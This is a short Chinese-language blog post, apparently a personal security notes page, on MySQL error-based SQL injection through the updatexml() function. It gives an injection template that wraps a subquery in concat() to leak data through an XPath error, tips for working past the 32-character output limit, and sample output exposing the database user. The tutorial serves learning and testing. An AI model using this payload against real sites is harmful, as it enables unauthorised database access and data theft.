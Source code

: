 ```yaml
---
title: "MySQL updatexml 注入"
date: 2018-02-07T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ['mysql','sqli']
categories: ['web']

hiddenFromHomePage: false
hiddenFromSearch: false
twemoji: false
lightgallery: true
ruby: true
fraction: true
fontawesome: true
linkToMarkdown: true
rssFullText: false

toc:
  enable: true
  auto: true
code:
  copy: true
  maxShownLines: 50
math:
  enable: false
share:
  enable: true
comment:
  enable: true
---
```



MySQL updatexml 注入

<!--more-->

`UPDATEXML (XML_document, XPath_string, new_value); `

XPath_string: Xpath 语法.

`id=1 and updatexml(1,concat(0x7e,(PAYLOAD),0x7e),1)`

PAYLOAD 自行替换 记得加上 limit.

updatexml() 最大返回 32 位 可以用 left() or substr() mid() 来截取后面的内容.

`XPATH syntax error:'~root@localhost~'`
